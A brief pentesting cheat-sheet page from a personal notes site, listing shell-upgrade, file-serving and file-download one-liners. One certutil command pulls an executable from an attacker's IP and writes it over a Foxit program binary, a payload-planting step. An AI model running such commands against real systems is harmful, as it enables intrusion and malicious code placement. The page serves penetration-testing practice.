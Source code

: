  ---
layout: default
title: Shell Interraction
nav_order: 2
has_children: false
parent: Pentesting
grand_parent: DylanGrl Writings
---

## Shell Interraction

### Interactive Shell 
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

### Simple Web Server
```bash
sudo python3 -m http.server
```

### File Download
#### Windows CMD
```powershell
certutil -urlcache -f http://$YOUR_IP/Foxit.exe "C:\Program Files (x86)\Foxit Software\Foxit.exe"
```

#### Linux :

```bash
wget http://<IP>:<PORT>/<FILE>
```